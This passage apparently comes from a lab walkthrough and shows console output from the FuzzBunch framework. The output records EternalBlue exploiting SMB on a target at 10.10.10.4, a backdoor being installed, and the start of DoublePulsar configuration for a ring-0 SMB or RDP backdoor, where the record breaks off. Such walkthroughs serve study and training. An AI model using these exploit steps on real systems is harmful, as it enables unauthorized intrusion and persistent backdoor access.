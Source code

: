 ```
[*] Pinging backdoor...
    [+] Backdoor not installed, game on.

...
[*] Pinging backdoor...
    [+] Backdoor returned code: 10 - Success!
    [+] Ping returned Target architecture: x86 (32-bit)
    [+] Backdoor installed
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] CORE sent serialized output blob (2 bytes):
0x00000000  08 00                                            ..
[*] Received output parameters from CORE
[+] CORE terminated with status code 0x00000000
[+] Eternalblue Succeeded
```

4. Executing DoublePulsar

```
fb Special (Eternalblue) > use DoublePulsar

[!] Entering Plugin Context :: Doublepulsar
[*] Applying Global Variables
[+] Set NetworkTimeout => 60
[+] Set TargetIp => 10.10.10.4

[*] Applying Session Parameters

[!] Enter Prompt Mode :: Doublepulsar

Module: Doublepulsar
====================

Name              Value                                                 
----              -----                                                 
NetworkTimeout    60                                                    
TargetIp          10.10.10.4                                            
TargetPort        445                                                   
OutputFile                                                              
Protocol          SMB                                                   
Architecture      x86                                                   
Function          OutputInstall                                         

[!] Plugin Variables are NOT Valid
[?] Prompt For Variable Settings? [Yes] :
[*]  NetworkTimeout :: Timeout for blocking network calls (in seconds).  Use -1 for no timeout.
[?] NetworkTimeout [60] :
[*]  TargetIp :: Target IP Address
[?] TargetIp [10.10.10.4] :
[*]  TargetPort :: Port used by the Double Pulsar back door
[?] TargetPort [445] :
[*]  Protocol :: Protocol for the backdoor to speak

*-> 0) SMB     Ring 0 SMB (TCP 445) backdoor
    1) RDP     Ring 0 RDP (TCP 3389) backdoor

[?] Protocol [0] :
[*]  Architecture :: Architecture of the target OS

*-> 0) x86     x86 32-bits
    1) x64     x64 64-bits

```